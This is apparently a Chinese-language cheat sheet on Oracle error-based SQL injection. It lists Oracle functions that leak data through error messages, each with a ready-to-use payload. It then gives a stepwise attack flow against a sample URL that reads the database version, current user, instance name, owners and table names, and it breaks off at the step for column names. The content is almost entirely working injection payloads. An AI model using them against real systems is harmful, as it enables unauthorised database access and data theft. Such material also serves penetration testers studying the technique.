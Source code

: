 > **常用显错函数**

1. **dbms_xdb_version.checkin()** **函数**

- 属于 dbms_xdb_version下的 checkin功能。此功能检入签岀的VCR并返回新创建的版本的资源ID。
- payload:

```
and (select dbms_xdb_version.checkin((select user from dual)) from dual) is not null--
```

1. **dbms_xdb_version.uncheckout()** **函数**

- 用法和checkin一致
- payload:

```
and (select dbms_xdb_version.uncheckout((select user from dual)) from dual) is not null--
```

1. **utl_inaddr.get_host_name() ** **函数**

- 说明：这种方法在 Oracle 8g,9g,10g中不需要任何权限，但是在** Oracle 11g及以后的版本中** ，官方加强了访问控制权限，所以在11g以后要使用此方法进行报错注入，当前数据库用户必须有**网络访问权限**
- 报错方法：获取ip地址，其参数如果解析不了会报错，显示传递的参数。如果其参数是一个SQL语句，那么报错就会把结果给显示出来。
- payload:

```
and utl_inaddr.get_host_name((select user from dual))=1--
```

> **其他常用显错函数**

| **函数名**                         | **payload**                                                  |
| :--------------------------------- | :----------------------------------------------------------- |
| dbms_xdb_version.makeversioned()   | and (select **dbms_xdb_version.makeversioned** ((select user from dual)) from dual) is not null-- |
| dbms_utility.sqlid_to_sqlhash()    | and (select **dbms_utility.sqlid_to_sqlhash** ((select user from dual)) from dual) is not null-- |
| ordsys.ord_dicom.getmappingxpath() | and select **ordsys.ord_dicom.getmappingxpath** ((select user from dual),user,user) =1-- |
| ctxsys.drithsx.sn()                | and (select **ctxsys.drithsx.sn** ((select user from dual)) from dual) =1-- |

> **Oracle error 注入基本流程**



highlighter- csharp

```
**1.判断是否存在注入** 
http://172.16.12.2:81/orcl.php?id=1' " and 1=1 and '1'='1' or '1'='1'

2.**查询数据库版本、数据库连接用户、当前实例名** 
id=1 and dbms_xdb_version.checkin((select banner from sys.v_$version where rownum=1)) is not null--
id=1 and dbms_xdb_version.checkin((select SYS_CONTEXT('USERENV','CURRENT_USER') from dual)) is not null--
id=1 and dbms_xdb_version.checkin((select instance_name from v$instance)) is not null--

2.**遍历获取数据库名** 
id=1 and dbms_xdb_version.checkin((select owner from all_tables where rownum=1)) is not null--
id=1 and dbms_xdb_version.checkin((select owner from all_tables where rownum=1 and owner not in ('SYS'))) is not null--

3.**遍历获取表名** 
id=1 and dbms_xdb_version.checkin((select table_name from user_tables where rownum=1)) is not null--
id=1 and dbms_xdb_version.checkin((select table_name from user_tables where rownum=1 and table_name not in ('ADMIN1','DEMO'))) is not null--

**4.遍历获取字段名** 
```